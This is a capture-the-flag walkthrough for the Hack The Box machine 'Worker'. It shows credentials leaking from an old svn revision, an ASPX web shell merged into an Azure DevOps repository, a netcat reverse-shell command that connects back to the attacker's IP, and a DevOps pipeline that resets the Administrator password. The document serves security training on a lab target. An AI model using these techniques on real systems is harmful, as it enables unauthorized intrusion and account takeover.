# Worker



Worker is a medium box that involved finding credentials on an svn server, logging in to a DevOps site and merging an aspx shell to the master branch. Once on the target, credentials were found to switch user and get the user flag. Getting Administrator involved logging in to the DevOps site with new credentials and creating a pipeline which modified the Administrator password allowing us to login and get the root flag.

# Overview
- Enumeration of the target
- Finding credentials on svn server
- Logging in to DevOps site and merging aspx shell
- Finding credentials on the target and switching user
- user.txt
- Logging in with new credentials to DevOps site
- Creating a pipeline which changes the Administrator password
- Logging in as Administrator using evil-winrm
- root.txt

# Enumeration

## Nmap

```bash
┌──(finlay㉿kali)-[~/htb/worker]
└─$ nmap -sC -sV 10.10.10.203
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for alpha.worker.htb (10.10.10.203)
Host is up (0.028s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Alpha by HTML5 UP
3690/tcp open  svnserve Subversion
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.28 seconds
```

We can see a website, and an svn server. Let's start by enumerating the svn server.

## SVN

We can start by listing what's in the repository.

```bash
┌──(finlay㉿kali)-[~/htb/worker]
└─$ svn list svn://10.10.10.203
dimension.worker.htb/
moved.txt
```

We can grab these 2 things and take a look:

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ svn export svn://10.10.10.203/moved.txt
A    moved.txt
Export complete.
```

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ svn export svn://10.10.10.203/dimension.worker.htb
A    dimension.worker.htb
A    dimension.worker.htb/LICENSE.txt
A    dimension.worker.htb/README.txt
...
A    dimension.worker.htb/images/pic03.jpg
A    dimension.worker.htb/index.html
Exported revision 5.
```

First, we'll take a look at `moved.txt`:

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ cat moved.txt                                                                                                                                                                                                                                                                                                      
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

We can see that it mentions `devops.worker.htb`, lets add this to our `/etc/hosts` file and see what's on that website.



It looks like we need credentials to login. Let's see if we can find them anywhere in the repository.

There isn't any in the current revision, so let's check through past revisions to see if there are any.

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ svn checkout -r 1 svn://10.10.10.203
D    moved.txt
Checked out revision 1.

┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ svn checkout -r 2 svn://10.10.10.203
A    deploy.ps1
Checked out revision 2.
```

We can see in revision 2 `deploy.ps1` was added, lets take a look.

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ cat deploy.ps1 
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

And we found the credentials `nathen:wendel98`.

# Exploitation

## Azure Devops



Now we have gained control over the repository. We need to merge in our own branch with and aspx shell so we can gain remote command execution.

First click on **SmartHotel360 > Repos > Branches**

Now click on the drop-down menu and click **New Branch**

You can name the branch anything you want, then click **Create branch**

Now click on your new branch and go to **Upload Files > Browse**

Now select [this](https://raw.githubusercontent.com/xl7dev/WebShell/master/Aspx/ASPX%20Shell.aspx) aspx shell, select all work items to link and click **Commit**.



Now click on **Create a pull request**.



You can leave everything as is and click **Create**



Now click **Approve > Complete > Complete Merge**

Now that the shell has been merged into the master branch, if we add `spectral.worker.htb` to our `/etc/hosts` file and go to the website we can access the shell.



To get an interactive shell, we need to put netcat on the target and then connect back to our local machine

Once you have downloaded netcat on to the target, setup a listener locally

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ nc -nvlp 4444  
listening on [any] 4444 ...
```

Now we can execute the reverse shell with `C:/Windows/Temp/nc.exe -e powershell.exe 10.10.14.65 4444`

And we can see that we got a shell:



# Privilege Escalation

## Switching user

After digging around on the target, we find a `passwd` file in the `W:\svnrepos\www\conf` directory.



After opening the file, we see a bunch of random usernames and passwords. However, one of them matches a user on the target called `robisl` and the password is `wolves11`

We can login as this user using evil-winrm and get the user flag.



## User.txt

And we find the flag in `C:\Users\robisl\Desktop`



## Getting Administrator

We can also use these credentials to login to the Azure DevOps site and create a pipeline which changes the Administrator password.

After logging in to the site with the new credentials, click on **PartsUnlimited > Pipelines**

Click **New Pipeline > Azure Repos Git > PartsUnlimited > Starter Pipeline**

Then delete the `pool: ‘Default’` line as we don't need that.

For the script change it to `net user Administrator HTBisgreat!` or whatever password you want to use.

Once you have clicked **Save and run**, select **Create a new branch for this commit and start a pull request.**, rename the branch and then it should run.



Once it has ran, you can login with evil-winrm as Administrator.



## Root.txt

And we find the flag in `C:\Users\Administrator\Desktop`

